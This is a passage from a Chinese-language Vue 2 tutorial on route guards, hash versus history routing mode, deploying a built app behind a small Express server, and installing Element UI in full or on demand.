     import News from "../pages/News";
     //引入三级路由组件
     import Detail from "../pages/Detail";
     
     //创建并默认暴露一个路由器
     const router = new VueRouter({
       //配置路由规则 给每一个路由都添加name属性
       routes: [
         //一级路由
         {
           //name属性值可随意，为了区别path这里就配置为guanyu
           name: "guanyu",
           path: "/about",
           component: About,
           peiqi: false, //该配置是无效的，会被路由构造函数忽略
           //meta叫路由元信息，专门用于程序员自定义属性
           //如果配置isAuth内容是false，可以直接省略，因为没有的属性默认是undefined，也就是false的效果
           meta: { isAuth: false }
         },
         {
           name: "zhuye",
           path: "/home",
           component: Home,
           //配置子路由
           children: [
             {
               name: "xinwen",
               path: "news",
               component: News,
               //鉴权配置为true，表示该路由需要鉴权
               meta: { isAuth: true }
             },
             {
               name: "xiaoxi",
               path: "message",
               component: Message,
               //鉴权配置为true，表示该路由需要鉴权
               meta: { isAuth: true },
               //三级路由
               children: [
                 {
                   //路由名称
                   name: "xiangqin",
                   //进行params参数占位,跟nodejs中写法一样
                   path: "detail",
                   component: Detail,
                   props({ query: { id, title } }) {
                     return { id, title };
                   }
                 }
               ]
             }
           ]
         }
       ]
     });
     
     //全局前置路由守卫，初始化的时候和每次路由切换之前，vue都会帮你调用配置的回调函数,这时路径是不会改变的
     //回调函数接收三个参数，to 要切换去的目标路由route对象 from 目前所在的路由route对象  next 放行函数
     router.beforeEach((to, from, next) => {
       console.log("前置路由守卫", to, from);
       //判断是否需要鉴权
       if (to.meta.isAuth) {
         if (localStorage.getItem("user") === "zhangsan") {
           next();
         } else {
           alert("用户名不是zhangsan，无法访问");
         }
       } else {
         //其他的不要鉴权
         next();
       }
     });
     
     export default router;
     ```
     
   + **全局后置路由守卫**`afterEach`,初始化的时候调用、每次**路由切换之后**被调用，这时路径是已经改变。
   
     ```js
     //最简单的后置路由守卫，只用于打印信息
     //全局后置路由守卫，初始化的时候和每次路由切换之后，vue都会帮你调用配置的回调函数,这时路径已经改变
     //回调函数只有两个参数，因为已经切换完成就不需要再放行了，to和from的内容跟前置是一样的
     router.afterEach((to, from) => {
       console.log("后置路由守卫", to, from);
     });
     ```
     
     案例:利用后置路由守卫更改页签title的名称。名称内容通过在`meta`中配置`title`完成。
     
     修改`index.html`中的title,防止刚进入页面时页面标题刷新抖动
     
     ```js
     <!DOCTYPE html>
     <html>
       <head>
         <meta charset="utf-8" />
         <!-- 针对IE浏览器的特殊配置，让IE浏览器以最高的渲染级别渲染页面 -->
         <meta http-equiv="X-UA-Compatible" content="IE=edge" />
         <!-- 开启移动端的理想视口 -->
         <meta name="viewport" content="width=device-width,initial-scale=1.0" />
         <!-- 引入图标，路径中的Base_URL是public文件夹所在的路径 -->
         <link rel="icon" href="<%= BASE_URL %>favicon.ico" />
         <!--引入第三方样式bootstrap.css-->
         <link rel="stylesheet" href="<%= BASE_URL %>css/bootstrap.css" />
         <!-- 配置网页标题，具体的内容是在package.json中的name属性内容 webpack完成的 -->
         <!-- <title><%= htmlWebpackPlugin.options.title %></title> -->
         <title>你好</title>
       </head>
       <body>
         <!-- 不支持js脚本时展示 -->
         <noscript>
           <strong>
             We're sorry but <%= htmlWebpackPlugin.options.title %> doesn't work
             properly without JavaScript enabled. Please enable it to continue
           </strong>
         </noscript>
         <!-- 容器 -->
         <div id="app"></div>
         <!-- built files will be auto injected -->
       </body>
     </html>
     ```
     
     `route.js`文件，利用后置路由完成title切换
     
     ```js
     //该文件专门用于创建整个应用的路由器
     import VueRouter from "vue-router";
     //引入路由要管理的组件
     import About from "../pages/About";
     import Home from "@/pages/Home";
     //引入子路由组件
     import Message from "../pages/Message";
     import News from "../pages/News";
     //引入三级路由组件
     import Detail from "../pages/Detail";
     
     //创建并默认暴露一个路由器
     const router = new VueRouter({
       //配置路由规则 给每一个路由都添加name属性
       routes: [
         //一级路由
         {
           //name属性值可随意，为了区别path这里就配置为guanyu
           name: "guanyu",
           path: "/about",
           component: About,
           peiqi: false, //该配置是无效的，会被路由构造函数忽略
           //meta叫路由元信息，专门用于程序员自定义属性
           //如果配置isAuth内容是false，可以直接省略，因为没有的属性默认是undefined，也就是false的效果
           meta: { isAuth: false, title: "关于" }
         },
         {
           name: "zhuye",
           path: "/home",
           component: Home,
           meta: { title: "主页" },
           //配置子路由
           children: [
             {
               name: "xinwen",
               path: "news",
               component: News,
               //鉴权配置为true，表示该路由需要鉴权
               meta: { isAuth: true, title: "新闻" }
             },
             {
               name: "xiaoxi",
               path: "message",
               component: Message,
               //鉴权配置为true，表示该路由需要鉴权
               meta: { isAuth: true, title: "消息" },
               //三级路由
               children: [
                 {
                   //路由名称
                   name: "xiangqin",
                   //进行params参数占位,跟nodejs中写法一样
                   path: "detail",
                   component: Detail,
                   meta: { isAuth: true, title: "详情" },
                   props({ query: { id, title } }) {
                     return { id, title };
                   }
                 }
               ]
             }
           ]
         }
       ]
     });
     
     //全局前置路由守卫，初始化的时候和每次路由切换之前，vue都会帮你调用配置的回调函数,这时路径是不会改变的
     //回调函数接收三个参数，to 要切换去的目标路由route对象 from 目前所在的路由route对象  next 放行函数
     router.beforeEach((to, from, next) => {
       console.log("前置路由守卫", to, from);
       //判断是否需要鉴权
       if (to.meta.isAuth) {
         if (localStorage.getItem("user") === "zhangsan") {
           // document.title = to.meta.title || "vue2_route"; //使用前置路由需要写两次修改title
           next();
         } else {
           alert("用户名不是zhangsan，无法访问");
         }
       } else {
         //其他的不要鉴权
         // document.title = to.meta.title || "vue2_route"; //使用前置路由需要写两次修改title
         next();
       }
     });
     
     //全局后置路由守卫，初始化的时候和每次路由切换之后，vue都会帮你调用配置的回调函数,这时路径已经改变
     //回调函数只有两个参数，因为已经切换完成就不需要再放行了，to和from的内容跟前置是一样的
     router.afterEach((to, from) => {
       //使用后置路由只需要写一次修改title,如果没有title就显示项目名，配置内容与package.json中"name": "vue2_route"一样才能防止进入时抖动
       document.title = to.meta.title || "你好";
       console.log("后置路由守卫", to, from);
     });
     
     export default router;
     ```
     
     

2. **独享路由守卫**`beforeEnter`：某一个路由单独享用的路由守卫。该守卫的回调函数是在进入路由之前被调用的。

   独享路由守卫可以看作一种特殊的前置路由守卫，只是它只作用于配置的路由，其他路由无效。

   独享路由守卫没有后置守卫，但它可以和全局后置守卫搭配使用。

   ```js
   //该文件专门用于创建整个应用的路由器
   import VueRouter from "vue-router";
   //引入路由要管理的组件
   import About from "../pages/About";
   import Home from "@/pages/Home";
   //引入子路由组件
   import Message from "../pages/Message";
   import News from "../pages/News";
   //引入三级路由组件
   import Detail from "../pages/Detail";
   
   //创建并默认暴露一个路由器
   const router = new VueRouter({
     //配置路由规则 给每一个路由都添加name属性
     routes: [
       //一级路由
       {
         //name属性值可随意，为了区别path这里就配置为guanyu
         name: "guanyu",
         path: "/about",
         component: About,
         peiqi: false, //该配置是无效的，会被路由构造函数忽略
         //meta叫路由元信息，专门用于程序员自定义属性
         //如果配置isAuth内容是false，可以直接省略，因为没有的属性默认是undefined，也就是false的效果
         meta: { isAuth: false, title: "关于" }
       },
       {
         name: "zhuye",
         path: "/home",
         component: Home,
         meta: { title: "主页" },
         //配置子路由
         children: [
           {
             name: "xinwen",
             path: "news",
             component: News,
             //鉴权配置为true，表示该路由需要鉴权
             meta: { isAuth: true, title: "新闻" },
             //独享路由守卫,参数这些跟全局前置路由守卫一样
             beforeEnter: (to, from, next) => {
               console.log("独享路由守卫", to, from);
               //判断是否需要鉴权
               if (to.meta.isAuth) {
                 if (localStorage.getItem("user") === "zhangsan") {
                   // document.title = to.meta.title || "vue2_route"; //使用前置路由需要写两次修改title
                   next();
                 } else {
                   alert("用户名不是zhangsan，无法访问");
                 }
               } else {
                 //其他的不要鉴权
                 // document.title = to.meta.title || "vue2_route"; //使用前置路由需要写两次修改title
                 next();
               }
             }
           },
           {
             name: "xiaoxi",
             path: "message",
             component: Message,
             //鉴权配置为true，表示该路由需要鉴权
             meta: { isAuth: true, title: "消息" },
             //三级路由
             children: [
               {
                 //路由名称
                 name: "xiangqin",
                 //进行params参数占位,跟nodejs中写法一样
                 path: "detail",
                 component: Detail,
                 meta: { isAuth: true, title: "详情" },
                 props({ query: { id, title } }) {
                   return { id, title };
                 }
               }
             ]
           }
         ]
       }
     ]
   });
   
   //全局后置路由守卫，初始化的时候和每次路由切换之后，vue都会帮你调用配置的回调函数,这时路径已经改变
   //回调函数只有两个参数，因为已经切换完成就不需要再放行了，to和from的内容跟前置是一样的
   router.afterEach((to, from) => {
     //使用后置路由只需要写一次修改title,如果没有title就显示项目名，配置内容与package.json中"name": "vue2_route"一样才能防止进入时抖动
     document.title = to.meta.title || "你好";
     console.log("后置路由守卫", to, from);
   });
   
   export default router;
   ```

3. **组件内守卫**，就是在组件内部去编写路由守卫，它只对配置的组件有效，主要分为两种：

   + **进入组件前守卫**`beforeRouteEnter`:通过路由规则，**进入该组件之前**被调用。这时路由已经完成切换，是在前置路由之后，后置路由之前执行的。

   + **离开组件前守卫**`beforeRouteLeave`:通过路由规则，**离开该组件之前**被调用。这时路由已经完成切换，是在前置路由之后，后置路由之前执行的。

     > [!NOTE]
     >
     >  如果不通过**路由规则**，也就是直接配置组件`<About />`使用时，是不会触发组件内路由守卫的。
     >
     >  组件路由守卫是可以搭配前置守卫以及后置守卫一起使用的，两者是互不影响的。

     配置在组件文件`About.vue`中，是该组件独享的守卫

     ```vue
     <template>
       <h2>我是About的内容</h2>
     </template>
     
     <script>
     export default {
       name: "About",
       // beforeDestroy() {
       //   console.log("About组件即将被销毁。。。");
       // },
       mounted() {
         // console.log("About组件被挂载。。。", this);
         // //路由组件的vc实例上会多出两个新的属性 $route $router
         // console.log(this.$route);
         // console.log(this.$router);
         // //验证
         // window.aboutRoute = this.$route;
         // window.aboutRouter = this.$router;
       },
     
       //组件内路由守卫
       //通过路由规则，进入该组件时被调用
       beforeRouteEnter(to, from, next) {
         console.log("路由进入About组件之前路由守卫", to, from);
         // 判断是否需要鉴权;
         if (to.meta.isAuth) {
           if (localStorage.getItem("user") === "zhangsan") {
             next();
           } else {
             alert("用户名不是zhangsan，无法访问");
           }
         } else {
           next();
         }
       },
     
       beforeRouteLeave(to, from, next) {
         console.log("路由离开About组件之前路由守卫", to, from);
         next();
       }
     };
     </script>
     ```

     对比进入与离开时to与from，可以发现进入的to=离开的from,其他的不一定。

     

   

## 二十三、hash模式与history模式

对于一个url来说，hash值指的就是`#`及其后面的内容。**hash值不会包含在HTTP请求中**，也就是hash值内容不会带给服务器。

**hash模式**下的url路径如下：`http://localhost:8080/#/home/message`，其中＃号后面的内容不会发给服务器，发送给服务器的路径就是`http://localhost:8080/`；

**history模式**下的url路径如下：`http://localhost:8080/home/message`，全部路径都会发送给服务器。发送给服务器的路径就是`http://localhost:8080/home/message`。

案例：启动后端服务器，发送三个请求：前两个请求都会成功，最后一个会出现404错误

`http://localhost:5000/students`

`http://localhost:5000/students/#/werwer/tuty/asfd/45645/sdfgd/atiguigu`

`http://localhost:5000/students/werwer/tuty/asfd/45645/sdfgd/atiguigu`


对比hash模式和history模式的区别：

hash模式：

1. url地址中永远带着`#`号，不美观；
2. 若以后将地址通过第三方手机app分享，若app校验严格，则地址会被标记为不合法；
3. 兼容性较好。

history模式：

1. 地址干净，美观；
2. 兼容性和hash模式相比略差；
3. **应用部署上线时需要后端人员支持**，解决刷新页面服务端404的问题。

vue路由器中默认开启的就是hash模式，因此url中自带`#`,如果要开启history模式，需要在路由中配置`mode`。

`route.js`文件

```js
//该文件专门用于创建整个应用的路由器
import VueRouter from "vue-router";
//引入路由要管理的组件
import About from "../pages/About";
import Home from "@/pages/Home";
//引入子路由组件
import Message from "../pages/Message";
import News from "../pages/News";
//引入三级路由组件
import Detail from "../pages/Detail";

//创建并默认暴露一个路由器
const router = new VueRouter({
  //开启history模式
  mode: "history",
  //配置路由规则 给每一个路由都添加name属性
  routes: [
    //一级路由
    {
      //name属性值可随意，为了区别path这里就配置为guanyu
      name: "guanyu",
      path: "/about",
      component: About,
      peiqi: false, //该配置是无效的，会被路由构造函数忽略
      //meta叫路由元信息，专门用于程序员自定义属性
      //如果配置isAuth内容是false，可以直接省略，因为没有的属性默认是undefined，也就是false的效果
      meta: { isAuth: true, title: "关于" }
    },
    {
      name: "zhuye",
      path: "/home",
      component: Home,
      meta: { title: "主页" },
      //配置子路由
      children: [
        {
          name: "xinwen",
          path: "news",
          component: News,
          //鉴权配置为true，表示该路由需要鉴权
          meta: { isAuth: true, title: "新闻" },
          //独享路由守卫,参数这些跟全局前置路由守卫一样
          beforeEnter: (to, from, next) => {
            console.log("独享路由守卫", to, from);
            //判断是否需要鉴权
            if (to.meta.isAuth) {
              if (localStorage.getItem("user") === "zhangsan") {
                // document.title = to.meta.title || "vue2_route"; //使用前置路由需要写两次修改title
                next();
              } else {
                alert("用户名不是zhangsan，无法访问");
              }
            } else {
              //其他的不要鉴权
              // document.title = to.meta.title || "vue2_route"; //使用前置路由需要写两次修改title
              next();
            }
          }
        },
        {
          name: "xiaoxi",
          path: "message",
          component: Message,
          //鉴权配置为true，表示该路由需要鉴权
          meta: { isAuth: true, title: "消息" },
          //三级路由
          children: [
            {
              //路由名称
              name: "xiangqin",
              //进行params参数占位,跟nodejs中写法一样
              path: "detail",
              component: Detail,
              meta: { isAuth: true, title: "详情" },
              props({ query: { id, title } }) {
                return { id, title };
              }
            }
          ]
        }
      ]
    }
  ]
});

//全局后置路由守卫，初始化的时候和每次路由切换之后，vue都会帮你调用配置的回调函数,这时路径已经改变
//回调函数只有两个参数，因为已经切换完成就不需要再放行了，to和from的内容跟前置是一样的
router.afterEach((to, from) => {
  //使用后置路由只需要写一次修改title,如果没有title就显示项目名，配置内容与package.json中"name": "vue2_route"一样才能防止进入时抖动
  document.title = to.meta.title || "你好";
  console.log("后置路由守卫", to, from);
});

export default router;
```

## 二十四、Vue项目上线部署

一个vue项目写完，上线部署的步骤主要分为两步：

1. **打包vue项目**，因为浏览器是不认识vue格式的这些文件，需要通过打包将这些文件转化为html、css、js文件;

   vue项目打包的指令为 `npm run build`,该内容配置在`package.json`文件中。打包好的文件内容是放在一个`dist`文件夹中

   这里打包是使用`webpack`打包的，具体内容去学习webpack。

   

   打包好的`index.html`直接点开是看不到内容的，需要部署到服务器上才有效。

2. **部署vue项目**，将打包完成的文件内容，**复制**在后端服务器写好的一个静态文件夹中。然后通过浏览器请求访问服务器获取文件。

   利用express简单编写一个后端服务器`server.js`文件，核心是配置一个静态资源目录`static`,名称随意。

   ```js
   const express = require("express");
   
   const app = express();
   //配置静态资源目录
   app.use(express.static(__dirname + "/static"));
   
   //创建路由规则
   app.get("/person", (request, response) => {
     //设置响应体
     const person = [
       {
         id: "001",
         name: "tom",
         age: 18
       },
       {
         id: "002",
         name: "jerry",
         age: 15
       },
       {
         id: "003",
         name: "andy",
         age: 28
       }
     ];
   
     response.send(JSON.stringify(person));
   });
   
   //监听服务
   app.listen(5000, () => {
     console.log(
       "人员服务器启动，5000端口监听中，请求地址为:http://localhost:5000/person"
     );
   });
   ```

   配置好静态资源目录后，就将打包好的内容复制放入。直接访问http://localhost:5000就会访问静态资源中的`index.html`文件。

   访问效果如下：

   

   如果是**history模式**，直接刷新就会出404错误，因为后端服务器找不到相关路径资源。

   如果是**hash模式**，直接刷新就不会出错。这也是路由默认为hash模式的原因。

   如果想要解决**history模式**问题，就需要后端配合解决，方式有多种：

   1. 后端程序人员**亲自使用正则**去判断哪些请求是前端路由的，哪些是后端的；

   2. nodejs中可使用相关中间件,先安装中间件：`npm i connect-history-api-fallback`，然后在服务器中使用并重新启动服务。

      ```js
      const express = require("express");
      const history = require('connect-history-api-fallback');
      const app = express();
      //必须配置在静态资源之前，因为要先解决问题静态资源刷新才没问题
      app.use(history())
      //配置静态资源目录
      app.use(express.static(__dirname + "/static"));
      
      //创建路由规则
      app.get("/person", (request, response) => {
        //设置响应体
        const person = [
          {
            id: "001",
            name: "tom",
            age: 18
          },
          {
            id: "002",
            name: "jerry",
            age: 15
          },
          {
            id: "003",
            name: "andy",
            age: 28
          }
        ];
      
        response.send(JSON.stringify(person));
      });
      
      //监听服务
      app.listen(5000, () => {
        console.log(
          "人员服务器启动，5000端口监听中，请求地址为:http://localhost:5000/person"
        );
      });
      ```

   3. 使用`nginx`配置中间代理服务，让它去区分请求类型。

## 二十五、element-ui

UI组件库又叫前端组件库是为了帮助开发者**快速构建界面**而设计的一系列**预制组件的集合**。这些组件库通常包含了按钮、表单、导航、模态框、工具提示等常用元素，以及更复杂的功能性组件，如日期选择器、滑块、数据表格等。

组件库不仅能提高开发效率，还能保证界面的一致性和专业性。而且如果对组件库的内容不满意是可以通过css和js去修改的。

使用UI组件库不需要记忆太多内容，需要时直接**查官方文档——组件**，**复制案例修改**即可。

vue的UI组件库有很多，主要分为移动端和PC端：

1. 移动端常用的UI组件库：

   **Vant**:https://youzan.github.io/vant

   **Cube UI**:https://didi.github.id/cube-ui

   **Mint UI**:http://mint-ui.github.io

   **NutUI(京东打造)**:https://nutui.jd.com/h5/vue/4x/#/zh-CN/guide/intro

2. PC端常用的UI组件库：

   **Element UI：** https://element.eleme.cn

   **IView UI：** https://www.iviewui.com

   **Ant Design of Vue：** https://1x.antdv.com/docs/vue/introduce-cn/

element-ui是饿了么团队打造的一套ui组件库。该组件库是基于vue开发的。可直接使用link引入css与script引入js，但既然是vue框架,就使用框架的方式使用：

1. 安装：`npm i element-ui`,如果是**Vue3**就安装使用新版 `npm i element-ui@3`;

2. 在`main.js`文件中引入并使用插件，完整引入的写法;

   ```js
   import Vue from "vue";
   import App from "./App.vue";
   //引入element UI组件库
   import ElementUI from "element-ui";
   //引入element UI全部样式
   import "element-ui/lib/theme-chalk/index.css";
   
   Vue.config.productionTip = false;
   //使用element UI插件 这里是把所有的组件都应用了
   Vue.use(ElementUI);
   
   new Vue({
     render: (h) => h(App)
   }).$mount("#app");
   ```

3. 在任意vue组件文件中使用，复制官方案例就可测试

   ```vue
   <template>
     <div class="container">
       <button>原生按钮</button>
       <!-- element ui按钮案例 -->
       <!-- 其中el-row是组件，el-button也是组件 只是它的命名没有采用大驼峰写法 ElButton而是-的写法-->
       <el-row>
         <el-button>默认按钮</el-button>
         <el-button type="primary">主要按钮</el-button>
         <el-button type="success">成功按钮</el-button>
         <el-button type="info">信息按钮</el-button>
         <el-button type="warning" disabled>警告按钮</el-button>
         <el-button type="danger" disabled>危险按钮</el-button>
       </el-row>
   
       <!-- 日期案例 -->
       <div class="block">
         <span class="demonstration">默认</span>
         <el-date-picker v-model="value1" type="date" placeholder="选择日期">
         </el-date-picker>
       </div>
     </div>
   </template>
   
   <script>
   export default {
     name: "App",
     data() {
       return {
         value1: ""
       };
     }
   };
   </script>
   <style lang="css"></style>
   ```

   如果不理解组件属性含义，可在官方页面最下方查看，以button为例

   

element-ui为防止引入内容过多，不用的也被引入。可不使用**完整引入**的方式，使用**按需引入**完成。

要实现按需引入，需要借助`babel-plugin-component`插件，蚂蚁金服开发的，这样就可以只引入需要的组件，以达到减小项目体积的目的。

按需引入步骤：

1. 安装：`npm install babel-plugin-component -D`；

2. 然后修改`.babelrc`文件，这是老版本名称，新版本是`babel.config.js`文件,注意修改了配置文件一定要重启服务才行；

   ```js
   module.exports = {
     presets: [
       //原本文件中的内容
       "@vue/cli-plugin-babel/preset",
       //追加内容
       // ["es2015", { modules: false }] //老版本配置 已经弃用
       ["@babel/preset-env", { modules: false }]
     ],
     plugins: [
       [
         "component",
         {
           libraryName: "element-ui",
           styleLibraryName: "theme-chalk"
         }
       ]
     ]
   };
   ```

3. 如果你只希望引入部分组件，比如`el-button`、`el-row`和`el-date-picker`那么需要在`main.js`中写入以下内容：

   ```js
   import Vue from "vue";
   import App from "./App.vue";
   //按需引入element UI组件库
   import { Button, DatePicker, Row } from "element-ui";
   
   Vue.config.productionTip = false;
   //按需应用Element UI，Button.name内容就是el-button
   // Vue.component是注册全局组件的写法 参数1是组件名，参数2是组件实例
   Vue.component(Button.name, Button);
   // 可以完全自定义组件名，使用时就使用自定义的名称 例如<el-button>就要写成<aaa>
   // Vue.component('aaa',Button)
   Vue.component(DatePicker.name, DatePicker);
   Vue.component(Row.name, Row);
   /* 或写为
    * Vue.use(Button)
    * Vue.use(DatePicker)
    * Vue.use(Row)
    */
   new Vue({
     render: (h) => h(App)
   }).$mount("#app");
   ```

4. 样式不需要，插件会自动根据引入的内容加载。
